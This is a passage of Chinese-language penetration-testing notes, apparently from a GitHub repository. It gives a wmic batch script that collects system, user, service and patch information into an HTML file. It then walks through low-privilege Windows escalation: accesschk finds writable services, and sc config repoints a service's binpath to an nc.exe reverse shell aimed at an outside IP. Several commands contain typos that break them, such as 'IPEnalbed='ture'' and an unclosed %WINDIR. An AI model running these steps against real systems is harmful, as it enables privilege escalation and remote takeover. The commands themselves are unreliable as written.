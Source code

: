 #### 12.自动收集系统有用的脚本

```shell
	for /f "delims=" %%A in ('dir /s /b %WINDIR\system32\*htable.xsl') do set "var=%%A"
	wmic process get CSName,Description,ExecutablePath,ProcecssId /format:"%var%">>out.html
	wmic service get Caption,Name,PathName,ServiceType,Started,StartMode,StartName /format:"%var%" >> out.html
	wmic USERACCOUNT list full /format:"%var%" >>out.html
	wmic group list full /format:"%var%" >>out.html
	wmic nicconfig where IPEnalbed='ture' get Caption,DefaultIPGateway,Description,DHCPEnabled,DHCPServer,IPAddress,IPSubnet,MACAddress /format:"%var%" >>out.html
	wmic volume get Label,DeviceID,DriveLetter,FileSystem,Capacity,FreeSpace /format:"%var%" >>out.html
	wmic netuse list full /format:"%var%" >>out.html 
	wmic qfe get Caption,Description,HotFixID,InstalledOn /format:"%var%" >>out.html 
	wmic startup get Description,InstallDate,InstallLocation,PackageCache,Vendor,Version /format:"%var%" >>out.html
	wmic os get name,version,InstallDate,LastBootUpTime,LocalDateTime,Manufacturer,RegisteredUser,ServicePackMajorVersion,SystemDirectory /format:"%var%" >>out.html
	wmic Timezone get DaylightName,Description,StandardName /format:"%var%" >> out.html 
```

### 2.windows低权限提权

>利用accesschk工具进行辅助

#### 	i.服务信息搜集

##### 		1）获取低权限可操作服务

```
accesschk -uwcqv "[用户组]" * 	#查看指定用户组的所有可读写服务名称
accesschk [用户名] -c *|find "RW" 或者 accesschk [用户名] -cw *
```

##### 	 	2)服务详细信息

```
sc qc [服务名]
```

##### 		3)确定在使用的服务

```
net start 确定已启用服务
```

##### 		4）获取服务名称对应的服务

#### 	ii.修改服务->提权

##### 		1）修改服务参数binpath的值（使用sc命令）

```
sc config [服务] binpath= "C:\windows\temp\nc.exe -nv xx.xxx.xx.xx [port] -e C:\windows\system32\cmd.exe" 反弹shell
sc qc [服务] 查询是否修改成功
```
